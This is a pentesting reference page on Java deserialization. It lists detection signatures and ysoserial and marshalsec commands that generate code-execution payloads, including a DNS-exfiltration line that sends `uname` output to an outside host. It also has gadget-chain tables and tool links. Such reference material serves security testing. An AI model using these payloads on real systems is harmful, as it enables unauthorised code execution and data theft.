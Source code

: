 # Java Deserialization

## Detection

- `"AC ED 00 05"` in Hex
  * `AC ED`: STREAM_MAGIC. Specifies that this is a serialization protocol.
  * `00 05`: STREAM_VERSION. The serialization version.
- `"rO0"` in Base64
- Content-type = "application/x-java-serialized-object"
- `"H4sIAAAAAAAAAJ"` in gzip(base64)

## Exploit

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial-master-v0.0.4-g35bce8f-67.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

```ps1
Payload             Authors                                Dependencies                                                                                                                                                                                        
-------             -------                                ------------                                                                                                                                                                                        
AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                                                                                                      
BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                           
C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                           
Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                                                                                                         
Clojure             @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                       
CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
CommonsCollections1 @frohoff                               commons-collections:3.1                                                                                                                                                                             
CommonsCollections2 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
CommonsCollections3 @frohoff                               commons-collections:3.1                                                                                                                                                                             
CommonsCollections4 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                             
CommonsCollections6 @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                             
FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
Groovy1             @frohoff                               groovy:2.3.9                                                                                                                                                                                        
Hibernate1          @mbechler                                                                                                                                                                                                                                  
Hibernate2          @mbechler                                                                                                                                                                                                                                  
JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                            
JRMPClient          @mbechler                                                                                                                                                                                                                                  
JRMPListener        @mbechler                                                                                                                                                                                                                                  
JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                        
Jdk7u21             @frohoff                                                                                                                                                                                                                                   
Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                             
MozillaRhino1       @matthias_kaiser                       js:1.7R2                                                                                                                                                                                            
MozillaRhino2       @_tint0                                js:1.7R2                                                                                                                                                                                            
Myfaces1            @mbechler                                                                                                                                                                                                                                  
Myfaces2            @mbechler                                                                                                                                                                                                                                  
ROME                @mbechler                              rome:1.0                                                                                                                                                                                            
Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                               
Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                           
URLDNS              @gebl                                                                                                                                                                                                                                      
Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                          
Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4   
```

## Burp extensions using ysoserial

- [JavaSerialKiller](https://github.com/NetSPI/JavaSerialKiller)
- [Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)
- [Burp-ysoserial](https://github.com/summitt/burp-ysoserial)
- [SuperSerial](https://github.com/DirectDefense/SuperSerial)
- [SuperSerial-Active](https://github.com/DirectDefense/SuperSerial-Active)

## Other tools

- [JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget)
- [JexBoss](https://github.com/joaomatosf/jexboss) - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool
- [ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- [gadgetprobe](https://labs.bishopfox.com/gadgetprobe)
- [marshalsec](https://github.com/mbechler/marshalsec) - Turning your data into code execution

```java
$ java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389

 where
  -a - generates/tests all payloads for that marshaller
  -t - runs in test mode, unmarshalling the generated payloads after generating them.
  -v - verbose mode, e.g. also shows the generated payload in test mode.
  gadget_type - Identifier of a specific gadget, if left out will display the available ones for that specific marshaller.
  arguments - Gadget specific arguments
```

Payload generators for the following marshallers are included:<br />

| Marshaller                      | Gadget Impact
| ------------------------------- | ----------------------------------------------
| BlazeDSAMF(0&#124;3&#124;X)     | JDK only escalation to Java serialization<br/>various third party libraries RCEs
| Hessian&#124;Burlap             | various third party RCEs
| Castor                          | dependency library RCE
| Jackson                         | **possible JDK only RCE**, various third party RCEs
| Java                            | yet another third party RCE
| JsonIO                          | **JDK only RCE**
| JYAML                           | **JDK only RCE**
| Kryo                            | third party RCEs
| KryoAltStrategy                 | **JDK only RCE**
| Red5AMF(0&#124;3)               | **JDK only RCE**
| SnakeYAML                       | **JDK only RCEs**
| XStream                         | **JDK only RCEs**
| YAMLBeans                       | third party RCE


## References

- [Github - ysoserial](https://github.com/frohoff/ysoserial)
- [Triggering a DNS lookup using Java Deserialization - paranoidsoftware.com](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
- [Detecting deserialization bugs with DNS exfiltration - Philippe Arteau | Mar 22, 2017](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)
- [Java-Deserialization-Cheat-Sheet - GrrrDog](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
- [Understanding & practicing java deserialization exploits](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)
- [How i found a 1500$ worth Deserialization vulnerability - @D0rkerDevil](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities - 14 Aug 2017, Peter Stöckli](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [Jackson CVE-2019-12384: anatomy of a vulnerability class](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [On Jackson CVEs: Don’t Panic — Here is what you need to know](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
- [Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464) - Michael Stepankin / @artsploit - 29 June 2021](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464)
